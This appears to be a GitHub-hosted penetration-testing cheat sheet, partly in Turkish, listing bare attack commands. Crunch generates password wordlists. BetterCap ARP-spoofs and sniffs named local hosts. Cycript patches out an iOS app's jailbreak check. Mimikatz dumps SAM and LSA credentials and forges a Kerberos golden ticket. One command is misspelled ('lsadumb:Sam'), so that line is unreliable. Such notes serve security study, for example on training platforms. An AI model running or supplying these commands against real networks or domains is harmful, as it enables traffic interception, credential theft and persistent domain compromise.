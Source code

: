 # crunch #

crunch 8 9 xy123 -o testwordlists

crunch 6 6 -t pass%%

crunch 2 2 01234abcd -o crunch.txt

crunch 5 5 -t "THM^^" -o tryhackme.txt

# BetterCap #

bettercap -iface wlan0

net.probe on

net.show

set arp.spoof.fullduplex true

set arp.spoof.targets 192.168.1.22, 192.168.1.24

arp.spoof on

net.sniff on

# Port Kullanımı #

lsof -i 80

# Cycript Kullanımı #

cycript -p <AppName>

UIApp

UIApp.keyWindow.rootViewController -- Cycript Tricks

printMethods("ViewController")

UIApp.keyWindow.rootViewController = [[SecondViewController alloc]init]

ViewController.prototype.isJailbroken = function() {return false;}

# Mimikatz #

lsadumb:Sam 

privilege::debug

lsadump::lsa /patch

lsadump::lsa /inject /name:krbtgt

kerberos::golden /user: /domain: /sid: /krbtgt: /id:
